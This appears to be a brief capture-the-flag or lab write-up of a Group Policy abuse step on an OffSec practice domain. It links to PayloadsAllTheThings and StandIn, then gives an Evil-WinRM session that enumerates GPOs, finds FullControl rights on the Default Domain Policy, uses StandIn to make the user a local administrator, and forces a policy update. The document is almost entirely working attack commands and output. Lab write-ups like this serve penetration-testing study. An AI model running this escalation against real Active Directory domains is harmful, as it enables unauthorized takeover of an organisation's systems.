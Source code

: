 # Abuse GPO

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#find-vulnerable-gpo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#find-vulnerable-gpo)

[https://github.com/FuzzySecurity/StandIn/releases\
\
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#abuse-gpo-with-standin](https://github.com/FuzzySecurity/StandIn/releaseshttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#abuse-gpo-with-standin)

```
*Evil-WinRM* PS C:\Users\anirudh\Desktop> .\StandIn_v13_Net45.exe --gpo
[?] Object   : CN={6AC1786C-016F-11D2-945F-00C04fB984F9}
    Path     : LDAP://CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=vault,DC=offsec
    DisplayName              : Default Domain Controllers Policy
    CN                       : {6AC1786C-016F-11D2-945F-00C04fB984F9}
    GPCFilesysPath           : \\vault.offsec\sysvol\vault.offsec\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
    GPCMachineExtensionnames : [{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
    WhenCreated              : 11/19/2021 8:50:33 AM
    WhenChanged              : 11/19/2021 8:50:33 AM

[?] Object   : CN={31B2F340-016D-11D2-945F-00C04FB984F9}
    Path     : LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=vault,DC=offsec
    DisplayName              : Default Domain Policy
    CN                       : {31B2F340-016D-11D2-945F-00C04FB984F9}
    GPCFilesysPath           : \\vault.offsec\sysvol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
    GPCMachineExtensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}][{B1BE8D72-6EAC-11D2-A4EA-00C04F79F83A}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}]
    WhenCreated              : 11/19/2021 8:50:33 AM
    WhenChanged              : 11/19/2021 9:00:32 AM

*Evil-WinRM* PS C:\Users\anirudh\Desktop> .\StandIn_v13_Net45.exe --gpo --filter "Default Domain Policy" --acl
[+] Account       : VAULT\anirudh
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None
    
*Evil-WinRM* PS C:\Users\anirudh\Desktop> .\StandIn_v13_Net45.exe --gpo --filter "Default Domain Policy" --localadmin anirudh
*Evil-WinRM* PS C:\Users\anirudh\Desktop> gpupdate /force
```

Login again.

